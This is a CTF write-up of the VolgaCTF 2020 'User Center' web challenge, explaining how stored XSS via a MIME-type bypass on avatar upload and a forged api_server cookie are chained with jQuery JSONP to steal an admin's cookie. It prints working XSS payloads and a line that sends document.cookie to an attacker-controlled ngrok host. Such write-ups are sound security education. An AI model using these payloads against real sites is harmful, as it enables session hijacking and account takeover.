








# User Center

## Challenge

```
Steal admin's cookie!
https://volgactf-task.ru/

Category: Web
Points: 300
Solved by: 34 of 1250 teams
```

### Solution - Short version
Exploit avatar image uploading to use Cross-site scripting. Upload URL to bug-report link, so admin navigates to it. Manipulate the cookie to the API URL, and redirect to main site. Request to API instead goes to our attacking server, and returns a javascript which is executed as JSONP. This script sends us the Admin cookies.

### Solution - Long version

> Disclaimer - I didn't manage to solve the task during the CTF, but did after reading the first official [russian writeup](https://translate.google.com/translate?depth=1&nv=1&rurl=translate.google.com&sl=auto&sp=nmt4&tl=en&u=https://blog.blackfan.ru/2020/03/volgactf-2020-qualifier-writeup.html%3Fm%3D1). I'm writing this to understand the missing pieces.
>
> \- Scalpel

On the site the user can upload a new avatar image for the profile, and there is a page where a user can upload a bug-report URL.

### Bug report link

I uploaded a link to my attacker site, and could see that the URL was hit within a minute. So most likely the Admin user will follow the link we upload.



The headers doesn't really expose anything useful, other than the fact we see the URL is called.

> #### Alternative to beeceptor 
> To quickly expose a local webserver on a public available random URL it is also possible to use
> ```
> python -m SimpleHTTPServer
> ngrok http 8000
> ```
> This gives a temporary random URL, like `http://149a3dc7.ngrok.io`, and you can edit and serve the files you want.


### XSS for avatar upload

Next is to try to figure out how to exploit the fact that we can upload profile images.



Using Burpsuite I intercepted the POST request to the server, and see that it sends a JSON structure to the server consisting of an `avatar` (which is base64 of the filecontent, a `type` and a `bio`.)


If `type` contains the words `html` or `xml` the upload is denied by the API.

It is possible to manipulate the `type` via Burpsuite, so that you can upload any arbitrary file content to the server. 

> #### Tip 
> In Burpsuite it is convenient to rightclick the request in the history, and choose "Send to Repeater". Then you can fiddle with the request, and send it over and over again for quick'n'easy testing.

When navigating to the `/profile.html` page there was an `img` tag there that referenced the file and type we uploaded. Inspecting the network traffic in Firefox was useful to see that the data we uploaded was being downloaded.

Using trial and error I could see that the type could be set to `*/*`, which would later tell Firefox to guess the MIME-type by looking at the downloaded data.

For example, by setting the `avatar` to a base64 encoded version of `<script> alert('xss');</script>`, and navigating directly to the image URL we see it execute javascript.



Another example that worked was to use type `text/rdf` and avatar `<a:script xmlns:a="http://www.w3.org/1999/xhtml">alert(document.domain)</a:script>` (base64 encode it). That treats the content as XML, and executes the Javascript.

Ok, at this point we know that we have found a XSS bug, on the static.volgactf-task.ru subdomain.

### Getting admin Cookies



There are three sites relevant here. There is the main site `volgactf-task.ru`, the site where avatars are uploaded `static.volgactf-task.ru` and the api where data is stored, `api.volgactf-task.ru`. The first one is the one we're interested in getting Admins cookie for.

When navigating to the /profile.html page, we can notice a slight delay between the loading of the page, and username etc being populated. That is because the page uses jQuery to retrieve data from the API. Relevant code is found in the `/js/main.js` file.



When document has loaded it'll get the cookie called `api_server`, and using `replaceForbiden` function it'll try to make sure none has tampered with it.

Now, the idea is this - use the XSS scripting bug on the `static` site to update the `api_server` cookie. And then tell the browser to navigate to the main site. It'll then try to load data from our evil site instead, and than could lead to another XSS bug.

Here is the javascript uploaded in the `avatar` field, which is used by the first XSS.

```html
<html><script>document.cookie="api_server=149a3dc7.ngrok.io\uc039callback\uc039\uc039q; path=/profile.html;domain=.volgactf-task.ru"; location="https://volgactf-task.ru/profile.html"</script></html>
```

Notice that the api_server is being set to `149a3dc7.ngrok.io\uc039callback\uc039\uc039q`. The `\uc039` is a random weird unicode char which leads the browser to split the domain from the file part. 

This image shows the base64-encoded javascript used.



Then I navigate to the /profile.html page, and retrieve the randomly generated URL for the avatar image, example `https://static.volgactf-task.ru/c19b7d931691bdee80623d2106ff3edf`

At this point we have changed the behavior of the main site. When it is supposed to retrieve info from the `api.volgactf-task-ru` site, it will instead contact our local server.

Lastly, we need to exploit another XSS bug.

jQuery.getJSON() is used in the `main.js` file when getting the JSON object which describes the user. But, by utilizing the [JSONP functionality in jQuery](https://learn.jquery.com/ajax/working-with-jsonp/) we can instead get it to execute a Javascript.

On our local server we can make a very simple `index.htm` file which only contains one line.

```javascript
location='https://149a3dc7.ngrok.io/?q=' + encodeURIComponent(document.cookie)
```

This will cause the second XSS bug to grab the cookie from the main site, and send it to us.

The next step is to get the Admin to browse to it, and that is done by uploading the link to the avatar-URL in the Bug-report section.



Within a minute, the Admin will navigate to that URL, and the following flow happens.

1) Admin opens the `https://static.volgactf-task.ru/c19b7d931691bdee80623d2106ff3edf` URL
2) Javascript is excuted which creates a new cookie for `api_server`, which points to our attacker server, and javascript redirects Admins browser to `https://volgactf-task.ru/profile.html`
3) Browers loads the /profile.html page, and performs jQuery's getJSON() call to our server.
4) Our server returns a Javascript instead of JSON.
5) That Javascript is executed in Admins browser, and sends us the cookies.

On our local server we can see the request comes in



URL decoding that gives `flag=VolgaCTF_0558a4ad10f09c6b40da51c8ad044e16`, and then converted to the correct format `VolgaCTF{0558a4ad10f09c6b40da51c8ad044e16}`